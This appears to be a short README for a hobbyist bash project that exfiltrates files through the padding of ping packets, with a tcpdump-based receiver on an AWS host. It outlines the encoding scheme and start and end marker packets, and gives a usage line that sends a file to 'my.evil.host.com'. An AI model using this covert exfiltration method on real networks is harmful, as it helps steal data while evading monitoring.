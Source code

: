 <pre>
Just testing exfiltration through ping packets with bash. By no means anything complete, nor pretty nor expert level. Just some beginner's testing in bash.

This test set was running on a private VM (sender) and AWS EC2 (receiver)

Not safe at all, as you need access to ping on the sending side and tcpdump on the receiving end, running things as sudo etc.

########
#MANUAL#
########
##RECEIVER##
#1: create the cronfile on your AWS or whatever you're running the receiver on
#2: start rolling the cron
#3: cron launches beefpoller.sh which will poll for new packets. Packets of interest are recognized when containing the padding data:

"beef15f00d1100FF"
#4: polling stops when the padding data contains:

"dead beef"
##SENDER##
#1: pinger.sh takes two arguments; first one being the file to exfiltrate and the second one is the host to exfiltrate data to:

./pinger.sh topkek.txt my.evil.host.com
#2: converts the data to base64, then to binary and is then pushed to 16bit array, then sends the init packet containing the "beef15f00d1100FF", then the data 16bits at a time and finally the end of transmit packet containing "dead beef"

##Most likely an awful way of doing things, slow(*) as *insertbadword* and amateurish. I take no resposibility nor give any warranties.
##Comments are always welcome.
(*) Would be faster to send the data out in hex, but just as a really minor obfuscation it's first encoded to b64 and then converted to bin
</pre>
